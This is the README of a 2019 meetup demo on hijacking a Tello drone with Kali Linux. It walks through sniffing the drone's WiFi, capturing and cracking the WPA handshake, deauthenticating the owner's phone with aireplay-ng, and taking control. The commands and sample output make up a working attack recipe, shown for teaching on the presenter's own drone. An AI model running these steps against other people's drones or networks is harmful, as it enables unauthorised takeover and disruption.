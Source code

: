# Girl Geek Dinners Oslo drone hacking demo code
Demo code and presentation for Girl Geek Dinners in Oslo February 4th 2019.

## Preparations

You need:

1. A laptop with Kali Linux
2. A network adapter that supports packet injection
3. A mobile phone with the Tello app

This github repo contains some files that will help you in the demo, but it is not a prerequisite to download it.

In order to program the drone (if you want that, this is optional) you'll need the Go programming language and the Gobot framework (https://gobot.io):

```
git clone https://github.com/transcendent-group/ggd.git
apt install golang
cd ggd
go get -d -u gobot.io/x/gobot/...
```

## Demo walkthrough

### Step 1: Sniff and find the drone’s WiFi network

Begin by listing wireless interfaces that support monitor mode with:

`airmon-ng`

If you do not see an interface listed then your wireless card does not support monitor mode.

If it does, make sure that other interfering processes are killed:

`airmon-ng check kill`

You should see output similar to this:

```
root@kali:~/ggd# airmon-ng check kill

Killing these processes:

  PID Name
  868 wpa_supplicant
```

Then list out the wireless interfaces you have:

`iwconfig`

You should see output similar to this:

```
root@kali:~/ggd# iwconfig
eth0      no wireless extensions.

lo        no wireless extensions.

wlan0     IEEE 802.11  ESSID:off/any  
          Mode:Managed  Access Point: Not-Associated   Tx-Power=20 dBm   
          Retry short  long limit:2   RTS thr:off   Fragment thr:off
          Encryption key:off
          Power Management:off
```

We will assume your wireless interface name is `wlan0`:

`airmon-ng start wlan0`

This may create a new interface that is named something else, so be sure to check with `iwconfig` to use the correct interface name for the rest of the demo.

Then scan the networks:

`airodump-ng wlan0`

Look for the network called `TELLO-D42128`, and make note of the `BSSID` (the Tello drone wifi access point MAC address), channel number and `STATION` (the controller's MAC address):

```

 CH  3 ][ Elapsed: 1 min ][ 2019-02-03 09:50                                       
                                                                                                                                                             
 BSSID              PWR RXQ  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID
                                                                                                                                                             
 70:85:C6:9C:BC:3E   -1   0        0        0    0   3  -1                    <length:  0>                                                                   
 D8:FE:E3:DD:5F:8A   -1   0        0        0    0   3  -1                    <length:  0>                                                                   
 60:60:1F:D4:21:28  -18 100      266    29646   47   3  54e. WPA2 CCMP   PSK  TELLO-D42128                                                                   
 80:37:73:BD:B5:42  -80   0        0        1    0   3  -1   WPA              <length:  0>                                                                    
 08:86:3B:B9:53:CA   -1   0        0        0    0   3  -1                    <length:  0>                                                                    
                                                                    
                                                                                                                                                              
 BSSID              STATION            PWR   Rate    Lost    Frames  Probe                                                                                    
                                                                                                                                                                                                                                         
60:60:1F:D4:21:28  D4:61:9D:EE:49:2F  -32   54e-54e  5993    30022  TELLO-D42128                                                                                              
```

In the above, these are:

* WiFi channel: `3`
* Tello drone MAC address: `60:60:1F:D4:21:28`
* Controller (iPhone) MAC address: `D4:61:9D:EE:49:2F`

### Step 2: Capture a handshake

Stop listening on all channels, and set the right channel:

```
airmon-ng stop wlan0
airmon-ng start wlan0 3
```

Sniff the airwaves for a handshake:

`airodump-ng -c 3 -b 60:60:1F:D4:21:28 -w ggd wlan0`

You should see a that a WPA handshake has been captured after a while in the right topmost corner of the terminal window:

```
CH  8 ][ Elapsed: 12 s ][ 2019-02-03 10:03 ][ WPA handshake: 60:60:1F:D4:21:28  
```

### Step 3: Crack the handshake and obtain WiFi password

`aircrack-ng ggd-01.cap -w passwords.txt`

### Step 4: Deauthenticate me

Deauthenticate the iPhone controller:

`aireplay-ng --deauth 0 -a 60:60:1F:D4:21:28 -c D4:61:9D:EE:49:2F wlan0`

### Step 5: Hijack the drone!

Keep the above command running, and connect to the `TELLO-D42128` network with the password from step 3. Start the Tello app on your phone, and takeoff!

### Step 6 (optional): Connect to the drone from you laptop and do some sweet flips

Open a text editor and insert the correct password in the `wpa_supplicant.conf` file.

Then disable monitor mode:

`airmon-ng stop wlan0`

Start wpa_supplicant:

`wpa_supplicant -i wlan0 -c wpa_supplicant.conf -D nl80211`

In another terminal window check that you are connected, and ask for an IP:

```
iwconfig
dhclient wlan0
```

Then compile and run:

```
go build hijack.go
./hijack
```




